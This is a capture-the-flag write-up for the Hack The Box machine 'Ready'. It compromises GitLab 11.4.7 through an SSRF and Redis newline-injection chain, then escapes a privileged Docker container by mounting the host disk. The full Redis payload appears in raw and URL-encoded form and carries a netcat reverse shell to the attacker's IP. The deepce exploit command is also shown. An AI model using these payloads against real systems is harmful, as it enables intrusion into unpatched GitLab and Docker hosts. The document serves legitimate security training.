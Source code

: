 ![](ready_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.220 ready.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

Port 5080 running service nginx http server

Running gitlab instance **Version CE 11.4.7** *get in help section after register with new user*

![](screenshots/running-gitlab.png)

# Foothold

## gitlab <11.4.8 SSRF via IPv6

Searching for gitlab exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

**Verify ssrf**

Using IPv6 address to bypass the filter on localhost.

![](screenshots/gitlab-ssrf.png)

and it worked

![](screenshots/bypass-local.png)

## New line injection to Exploit internal redis server

Got Payload form bug reported by [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.

![](screenshots/rev_shell.png)

# Privesc

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.

![](screenshots/container-root_pass.png)
<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.

![](screenshots/gitlab-config.png)

and password work for container root

![](screenshots/container-rooted.png)

Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

## docker container with privileged

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

**Root-0x1**

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```
![](screenshots/exploit-deepce.png)

**Root-0x2**

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```

![](screenshots/mount-rooted.png)


finally root shell with deepce script

![](screenshots/root-shell.png)
